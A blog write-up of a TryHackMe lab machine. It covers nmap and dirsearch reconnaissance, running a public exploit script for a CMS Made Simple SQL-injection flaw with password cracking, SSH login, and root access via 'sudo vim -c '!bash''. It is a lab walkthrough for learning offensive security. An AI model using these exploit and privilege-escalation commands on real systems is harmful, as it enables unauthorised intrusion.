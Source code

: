 ```yaml
---
tagline: simplectf
title: Simple CTF | A Simple Writeup
description: A simple writeup for a simple machine.
banner: /blog/tryhackmeban2.png/
banner_alt: Banner of THM (if you find this the flag is csd{8r1N6_84CK_7H3_816_84N6_7H30rY})
date: '2024-02-18'
---
```

## Foreword

Keeping the intro concise, today I'll be tackling a THM machine created by [MrSeth6797](https://tryhackme.com/p/MrSeth6797). You can find this machine [here](https://tryhackme.com/room/easyctf).

## Question 1 & 2

- Starting with a NMAP scan

```bash:Terminal
❯ sudo nmap -sS -sV 10.10.221.233
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-18 22:46 EST
Nmap scan report for 10.10.221.233
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.38 seconds
```

- To summarize, port 21 & 80 are open under port 1000 and ssh is running on the highest port.

## Dirsearch

```bash:Terminal
❯ dirsearch -u 10.10.221.233 --exclude-status 404,403

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /Users/vipin/reports/_10.10.221.233/_24-02-18_23-42-55.txt

Target: http://10.10.221.233/

[23:43:01] Starting:
[23:44:32] 200 -  540B  - /robots.txt
[23:44:35] 301 -  315B  - /simple  ->  http://10.10.221.233/simple/

Task Completed
```

- *robots.txt* shows nothing important but */simple* shows us some sort of homepage

## Question 3 & 4

- Towards the bottom, we see the site is powered by *cmsmadesimple*

![Image showing a potential vulnerability](/blog/simplectfpics/vulnerabilityclue1.png 'Fig.1')

- A simple search tells us that vulnerability is [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053) and it vulnerable to sqli.  

## Question 5

- Looking around the internet, we find [this POC script](https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3) and the hint tells us to crack with [this](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best110.txt) wordlist.

```bash:Terminal
❯ python3 csm_made_simple_injection.py -u http://10.10.159.250/simple/ --crack -w /Users/vipin/tech/CTFs/wordlists/best110.txt

[+] Salt for password found: <REDACTED>
[+] Username found: mitch
[+] Email found: admin@adw
[+] Password found: <REDACTED>
[+] Password cracked: <REDACTED>
```

## Question 6 to 10 + Final Thoughts

- Now we can login through SSH with the username & password

```bash:Terminal
❯ ssh mitch@10.10.159.250 -p 2222
mitch@10.10.159.250's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
<REDACTED>
```

- Looking in the home directory we find another user by the name of sunbath and running ```sudo -l``` we see that we can use vim to spawn a privileged shell (If you want to understand this better check out [this](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d)article)

```bash:Terminal
❯ sudo vim 

:r!whoami # using ":r!" we can run commands as root

root # and look it tells us we are root
```

- Tiny issue with that, most commands can't work

```bash:Terminal
$ sudo vim -c '!bash'
root@Machine:/# cd /root
root@Machine:~# ls
root.txt
root@Machine:~# cat root.txt
<REDACTED>
root@Machine:~#
```

"Voila! Another machine rooted! I had a blast and learnt some new things along the way. I hope you enjoyed this writeup. If you're hungry for more, feel free to check out others [here](https://www.vipinb.xyz/blog)!
